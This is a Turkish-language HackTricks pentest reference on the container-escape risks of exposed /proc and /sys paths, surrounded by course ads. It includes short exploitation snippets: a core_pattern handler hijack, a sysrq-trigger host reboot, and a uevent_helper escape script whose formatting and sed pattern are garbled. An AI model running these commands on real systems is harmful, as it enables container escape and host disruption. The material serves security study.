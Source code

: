 # Hassas Bağlantı Noktaları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmaya öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünleri**](https://peass.creator-spring.com)'ni edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı göndererek HackTricks ve HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Doğru namespace izolasyonu olmadan `/proc` ve `/sys`'in maruz kalması, saldırı yüzeyinin genişlemesi ve bilgi sızdırma gibi ciddi güvenlik risklerini beraberinde getirir. Bu dizinler, yanlış yapılandırılmış veya yetkisiz bir kullanıcı tarafından erişilen hassas dosyaları içerir ve bu da konteyner kaçışına, ana bilgisayarın değiştirilmesine veya daha fazla saldırıya yardımcı olacak bilgilerin sağlanmasına neden olabilir. Örneğin, `-v /proc:/host/proc` şeklinde yanlış bağlama yapılması, yol tabanlı doğası nedeniyle AppArmor korumasını atlayabilir ve `/host/proc`'u korumasız bırakabilir.

**Her potansiyel zafiyetin daha fazla ayrıntısını** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** adresinde bulabilirsiniz.**

## procfs Zafiyetleri

### `/proc/sys`

Bu dizin, genellikle `sysctl(2)` aracılığıyla çekirdek değişkenlerini değiştirme izni verir ve endişe kaynağı olan birkaç alt dizini içerir:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) adresinde açıklanmıştır.
* İlk 128 baytı argümanlar olarak alan bir programın çekirdek dosyası oluşturulduğunda yürütülmesine izin verir. Bu, dosyanın bir boru `|` ile başlaması durumunda kod yürütmeyle sonuçlanabilir.
*   **Test ve Sömürü Örneği**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Yazma erişimini test et
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Özel işleyiciyi ayarla
sleep 5 && ./crash & # İşleyiciyi tetikle
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde detaylı olarak açıklanmıştır.
* Çekirdek modül yükleyicisinin yolunu içerir, çekirdek modüllerini yüklemek için çağrılır.
*   **Erişimi Kontrol Etme Örneği**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe'a erişimi kontrol et
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde referans gösterilmiştir.
* Bir OOM durumu meydana geldiğinde çekirdeğin çökmesini veya OOM öldürücüyü çağırmasını kontrol eden genel bir bayrak.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde belirtildiği gibi, dosya sistemi hakkında seçenekler ve bilgiler içerir.
* Yazma erişimi, ana bilgisayara karşı çeşitli hizmet reddi saldırılarına olanak tanır.

#### **`/proc/sys/fs/binfmt_misc`**

* Sihirli sayılarına dayalı olmayan ikili biçimler için yorumlayıcıları kaydetmeye olanak tanır.
* `/proc/sys/fs/binfmt_misc/register` yazılabilirse ayrıcalık yükseltmesine veya kök kabuk erişimine yol açabilir.
* İlgili sömürü ve açıklama:
* [binfmt\_misc ile yoksul adamın kök kiti](https://github.com/toffan/binfmt\_misc)
* Detaylı öğretici: [Video bağlantısı](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Diğerleri `/proc` içinde

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC` etkinse çekirdek yapılandırmasını ortaya çıkarabilir.
* Çalışan çekirdekteki zafiyetleri belirlemek için saldırganlar için faydalıdır.

#### **`/proc/sysrq-trigger`**

* Sysrq komutlarını çağırmaya izin verir, potansiyel olarak anında sistem yeniden başlatmalar veya diğer kritik işlemlere neden olabilir.
*   **Ana Bilgisayarı Yeniden Başlatma Örneği**:

```bash
echo b > /proc/sysrq-trigger # Ana bilgisayarı yeniden başlatır
```

#### **`/proc/kmsg`**

* Çekirdek halka tamponu mesajlarını açığa çıkarır.
* Çekirdek saldırılarına yardımcı olabilir, adres sızıntılarına ve hassas sistem bilgilerine sağlayabilir.

#### **`/proc/kallsyms`**

* Çekirdek dışa aktarılan sembolleri ve adreslerini listeler.
* Özellikle KASLR'yi aşmak için çekirdek sömürü geliştirme için temel öneme sahiptir.
* Adres bilgileri `kptr_restrict`'in `1` veya `2` olarak ayarlanmasıyla sınırlıdır.
* Detaylar [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde bulunabilir.

#### **`/proc/[pid]/mem`**

* Çekirdek bellek cihazı `/dev/mem` ile etkileşim sağlar.
* Tarihsel olarak ayrıcalık yükseltme saldırılarına karşı savunmasızdır.
* Daha fazlası [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) adresinde bulunabilir.

#### **`/proc/kcore`**

* Sistemin fiziksel belleğini ELF çekirdek biçiminde temsil eder.
* Okuma, ana bilgisayar sistemi ve diğer konteynerlerin bellek içeriğini sızdırabilir.
* Büyük dosya boyutu okuma sorunlarına veya yazılım çökmelerine yol açabilir.
* Ayrıntılı kullanım [2019'da /proc/kcore Dökme](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) adresinde bulunabilir.

#### **`/proc/kmem`**

* Çekirdek sanal belleği temsil eden `/dev/kmem` için alternatif arayüz.
* Okuma ve yazma izin verir, dolayısıyla çekirdek belleğinin doğrudan değiştirilmesine olanak tanır.

#### **`/proc/mem`**

* Fiziksel belleği temsil eden `/dev/mem` için alternatif arayüz.
* Okuma ve yazma izin verir, tüm belleğin değiştirilmesi sanal adreslerin fiziksel adreslere çözülmesini gerektirir.

#### **`/proc/sched_debug`**

* PID ad alanı korumalarını atlayarak işlem zamanlama bilgilerini döndürür.
* İşlem adlarını, kimlikleri ve cgroup tanımlayıcılarını açığa çıkarır.

#### **`/proc/[pid]/mountinfo`**

* İşlem montaj ad alanındaki bağlantı noktaları hakkında bilgi sağlar.
* Konteyner `rootfs` veya görüntünün konumunu açığa çıkarır.

### `/sys` Zafiyetleri

#### **`/sys/kernel/uevent_helper`**

* Çekirdek cihaz `uevent`'leri işlemek için kullanılır.
* `/sys/kernel/uevent_helper`'a yazmak, `uevent` tetikleyicileri üzerine keyfi komut dosyalarını yürütmesine olanak tanır.
*   **Sömürü için Örnek**: %%%bash

### Bir yük oluşturur

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Konteyner için OverlayFS bağlama noktasından ana bilgisayar yolunu bulur

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### uevent\_helper'ı kötü amaçlı yardımcıya ayarlar

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### Bir uevent tetikler

echo change > /sys/class/mem/null/uevent

### Çıktıyı okur

cat /output %%%
#### **`/sys/class/thermal`**

* Sıcaklık ayarlarını kontrol eder, olası DoS saldırılarına veya fiziksel hasara neden olabilir.

#### **`/sys/kernel/vmcoreinfo`**

* Kernel adreslerini sızdırır, KASLR'ı tehlikeye atabilir.

#### **`/sys/kernel/security`**

* `securityfs` arayüzünü barındırır, AppArmor gibi Linux Güvenlik Modülleri'nin yapılandırılmasına izin verir.
* Erişim, bir konteynerin MAC sistemini devre dışı bırakmasına olanak tanıyabilir.

#### **`/sys/firmware/efi/vars` ve `/sys/firmware/efi/efivars`**

* NVRAM'daki EFI değişkenleriyle etkileşim için arayüzler sunar.
* Yanlış yapılandırma veya istismar, tuğla haline gelen dizüstü bilgisayarlar veya başlatılamayan ana bilgisayar makinelerine yol açabilir.

#### **`/sys/kernel/debug`**

* `debugfs`, çekirdeğe "kurallar olmadan" hata ayıklama arayüzü sunar.
* Sınırsız doğası nedeniyle güvenlik sorunları geçmişi bulunmaktadır.

### Referanslar

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬 [Discord grubuna](https://discord.gg/hRep4RUj7f) veya [telegram grubuna](https://t.me/peass) katılın veya** bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)'da takip edin**.
* **Hacking püf noktalarınızı paylaşarak HackTricks ve HackTricks Cloud** github depolarına PR göndererek katkıda bulunun.

</details>
